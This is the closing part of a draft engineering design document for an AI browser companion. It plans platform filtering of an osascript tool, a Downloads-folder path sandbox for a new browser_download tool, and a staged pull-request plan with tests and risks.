Surface:      L1
L2-classes:   (none)      # NOT a new class — reuses existing security.confirmation
                          # (evaluate-style queue), no new Confirm dialect
Compose:      none
Autonomy:     single
Trust:        path-confirm via existing security.confirmation.request
Channel:      community
```

---

## Open Questions

| # | Question | Default |
|---|----------|---------|
| Q1 | P1.0 仅 Downloads vs 三根目录 | **Downloads only** |
| Q2 | spike 后是否仍加 `downloads` permission | **Yes if primary is chrome.downloads** |
| Q3 | Worker 策略 | **Allow tool + force default path**（D16） |
| Q4 | 自动 skill.import | **No** |
| Q5 | text 多匹配 | **Fail** `ELEMENT_AMBIGUOUS` |
| Q6 | 每 origin 首次 download 确认？ | **Defer**（非 P1.0） |

---

## Implementation notes

| 文件 | 改动 |
|------|------|
| `companion/src/bridge/tool-definitions.ts` | `getAllToolDefinitions` / filter / pure helpers |
| `companion/src/bridge/tool-schemas.ts` | browser_download；click text 联合 |
| `companion/src/llm/adapter.ts` | 二次 filter；Rule 8 分支（PR-2） |
| `companion/src/server.ts` | early-reject before confirmation UI；path check；worker strip；forward |
| `companion/src/message-router.ts` | case 首行 platform fail |
| `companion/src/platform.ts` 或 `path-sandbox.ts` | Downloads + `isWithinRoot` + assert |
| `companion/src/packs/validator.ts` | `getAllToolDefinitions` |
| `companion/src/orchestrator/constants.ts` | `TAB_LEASE_TOOLS` + browser_download |
| `chrome-extension/.../browser-bridge.ts` | browser_download；downloads API；finder；restore；deprecate download |
| `chrome-extension/package.json` | `downloads` permission（若锁定 primary） |
| `companion/builtin-skills/browse.md` | PR-2 |
| `companion/tests/bridge.test.ts` | 平台分支断言 |
| `companion/tests/platform-tools.test.ts` | 新 |
| `companion/tests/integration/security-gates.test.ts` | **M3' 平台分叉** |
| `companion/tests/tool-schemas.test.ts` | 全量名仍可 parse osascript |

符号优先于行号：`createToolExecutor`、`executeCompanionTool`、`L2_GATE_TOOLS`、`TAB_LEASE_TOOLS`、`isWithinRoot`。

---

## Risks

| Risk | Severity | Mitigation |
|------|----------|------------|
| CDP tab session 无 Browser download 事件 | High | Spike；默认 chrome.downloads primary |
| Windows CI 打断 M3' osascript L2 测试 | High | PR-1 平台分叉（Issue 6） |
| Pack 校验拒 osascript 名 | Low | getAllToolDefinitions |
| 版本漂移 | Medium | NOT_IMPLEMENTED；同版本发 |
| 不 restore download behavior | Medium | D14 finally |

---

## References

- ADR-007 · ADR-015 · ADR-020  
- host-use `isWithinRoot` — `companion/src/host-use/win/adapter.ts`  
- `orchestrator/constants.ts` — `TAB_LEASE_TOOLS` / `WORKER_HARD_DENY`  
- sprint T6.4（历史 Page.\* 命名 **以本设计 Browser.\* / chrome.downloads 为准**）  
- Production thread `c7tlnl`  
- `classifyError` — `macos-only` recoverable  

---

## PR Plan

> 每 PR 独立可 review。**P0 与 P1 无硬依赖。** Text-click（PR-6）**产品上**应在 companion 暴露 `browser_download`（PR-5）之前或之内，以闭合 G3。

### PR-1 — P0: filter + early-reject + test fork  
**Ready to implement**

| 项 | 内容 |
|----|------|
| **Title** | `fix(tools): hide osascript_eval off-darwin and reject before L2` |
| **Files** | `tool-definitions.ts`（`getAllToolDefinitions`, `shouldL2GateOsascript`, `isOsascriptAvailable`）；可选小文件 `platform-tools.ts`；`adapter.ts`；`server.ts`；`message-router.ts`；`packs/validator.ts`；`bridge.test.ts`；`platform-tools.test.ts`；**`integration/security-gates.test.ts`（M3' 分叉）** |
| **Deps** | 无 |
| **Description** | 过滤 LLM 表；确认 UI 前 reject；router 首行；pack 用全量；保留 exact `macOS-only` 文案。 |
| **Acceptance** | ① `getToolDefinitions("win32")` 无 osascript；darwin 有。② `getAllToolDefinitions()` 有 osascript。③ non-darwin executor：**无** confirmation message；`/macos-only/i`。④ `classifyError` → recoverable。⑤ M3'：non-darwin early-reject / darwin 保持 critical L2。⑥ pack validator 在 win 上仍接受白名单含 `osascript_eval` 的 fixture（若有）。 |

### PR-2 — P0.1: prompt / browse hygiene（非产品 P2 text-click）

| 项 | 内容 |
|----|------|
| **Title** | `docs(skills): platform-aware browse skill; drop osascript on non-darwin prompts` |
| **Files** | `browse.md`；`adapter.ts` Rule 8 分支 |
| **Deps** | 软依赖 PR-1（可同 PR） |
| **Acceptance** | win32 system prompt **不含** `osascript_eval` 字符串（单测）；darwin 保留 LAST RESORT。 |

### PR-3 — P1 path sandbox helpers

| 项 | 内容 |
|----|------|
| **Title** | `feat(platform): Downloads dir + isWithinRoot download path allowlist` |
| **Files** | `platform.ts` 和/或 `path-sandbox.ts`；tests（§1.9 PR-3 表） |
| **Deps** | 无（∥ PR-1） |
| **Acceptance** | §1.9 全部 path cases 绿；导出 `isWithinRoot` / `assertDownloadPathAllowed`。 |

### PR-4 — P1 extension transport（**blocked on §1.0 spike**）

| 项 | 内容 |
|----|------|
| **Title** | `feat(extension): browser_download via chrome.downloads (+ optional CDP)` |
| **Files** | `browser-bridge.ts`；`package.json` permissions；extension tests mock downloads 序列；spike note 链接 |
| **Deps** | §1.0 spike exit；PR-3 路径约定 |
| **Description** | Primary per spike；text+selector 定位；D13/D14；deprecate `download` case；handler 名 `browser_download`。 |
| **Acceptance** | §1.9 PR-4 表；spike note 勾选 S1–S6。 |

### PR-5 — P1 companion tool + lease/worker

| 项 | 内容 |
|----|------|
| **Title** | `feat(tools): browser_download LLM tool, tab lease, worker path policy` |
| **Files** | `tool-definitions.ts`；`tool-schemas.ts`；`server.ts`；`orchestrator/constants.ts`；tests §1.9 PR-5 |
| **Deps** | **硬：** PR-3, PR-4。**产品：** PR-6 的 text finder 已在 PR-4 交付则无需等独立 PR-6；否则 PR-6 必须先合或并入 PR-4/5。 |
| **Acceptance** | malicious path 不 forward；TAB_LEASE；worker path deny；schema；G3 manual checklist。 |

### PR-6 — Text targeting（**产品上先于或并入 PR-5**）

| 项 | 内容 |
|----|------|
| **Title** | `feat(browser): resolve click/download targets by visible text` |
| **Files** | `browser-bridge.ts` finder；可选 `click`/`dblclick` schema；tests |
| **Deps** | 无硬依赖 P0；**建议在 PR-5 之前 merge 或直接并入 PR-4** |
| **Acceptance** | `text:"下载"` 单匹配成功；多匹配 AMBIGUOUS；c7tlnl 按钮可点。 |

### PR-7 — Docs

| 项 | 内容 |
|----|------|
| **Title** | `docs: Windows download UX + platform tools` |
| **Files** | TROUBLESHOOTING；architecture §11；可选 ADR |
| **Deps** | PR-1 + PR-5 |

---

### PR dependency graph（与合并顺序一致）



**建议合并顺序：**

1. **PR-1**（P0 快车道）→ **PR-2**  
2. **PR-3** ∥ **§1.0 spike**  
3. **PR-6 text finder 并入 PR-4**（推荐）或 PR-6 → PR-4  
4. **PR-4** → **PR-5** → **PR-7**  

**禁止**再画「PR1 → PR5 硬边」或「PR6 → PR5 却把 PR6 排在 PR5 之后」的矛盾叙述。

---

## Appendix A — Spike note template（P1 gate）

```markdown
# Spike: browser_download transport (Windows MV3)
Date / Chrome version / extension build:
S1 setDownloadBehavior on tab debugger: PASS/FAIL + error
S2 Browser.download* events via chrome.debugger.onEvent: PASS/FAIL
S3 chrome.downloads onCreated/onChanged complete: PASS/FAIL
S4 permission impact: ...
S5 restore behavior: ...
S6 decision: PRIMARY=chrome.downloads | CDP | hybrid
```

---

*End of design document — Draft R1 2026-07-29*  
*P0: implementation-ready · P1: provisional pending spike*
